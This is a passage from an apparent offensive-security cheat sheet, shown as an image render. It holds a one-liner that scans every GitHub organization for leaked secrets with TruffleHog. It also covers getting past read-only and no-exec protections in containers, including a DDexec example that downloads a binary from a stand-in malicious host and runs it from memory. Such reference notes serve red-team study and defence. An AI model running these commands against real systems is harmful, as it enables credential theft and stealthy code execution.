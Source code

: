 ```C
    printf("usage: sudo -h | -K | -k | -V\nusage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]\nusage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user] [command]\nusage: sudo [-AbEHknPS] [-C num] [-D directory] [-g group] [-h host] [-p prompt] [-R directory] [-T timeout] [-u user]\n\t[VAR=value] [-i|-s] [<command>]\nusage: sudo -e [-AknS] [-C num] [-D directory] [-g group] [-h host] [-p prompt] [-R directory] [-T timeout] [-u user]\n\tfile ...\n");
   }
 return 0;
}
```

## TruffleHog GitHub Organizations

Enumerate GitHub organizations for secrets and credentials

```console
root@RoseSecurity# orgs=$(curl -s https://api.github.com/organizations | jq -r '.[] | .name'); for i in $orgs; do trufflehog github --org=$i; done
```

## Bypass File System Protections (Read-Only and No-Exec) for Containers

It's increasingly common to find Linux machines mounted with read-only (ro) file system protection, especially in containers. This is because running a container with `ro` file system is as easy as setting `readOnlyRootFilesystem: true` in the `securitycontext`:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: victim-pod
spec:
  containers:
  - name: alpine 
    image: alpine
    securityContext:
      readOnlyRootFilesystem: true
    command: ["sh", "-c", "while true; do echo 'RoseSecurity FTW'; done"]
```

However, even if the file system is mounted as `ro`, /dev/shm will still be writable, so it's fake we cannot write anything on the disk. However, this folder will be mounted with `no-exec` protection, so if you download a binary here you won't be able to execute it.

[DDexec](https://github.com/arget13/DDexec) is a technique that allows you to modify the memory of your own process by overwriting its /proc/self/mem.

```
# Example
wget -O- https://malicious.com/hacked.elf | base64 -w0 | bash ddexec.sh argv0 phone home
```

## Dumping Printer NVRAM
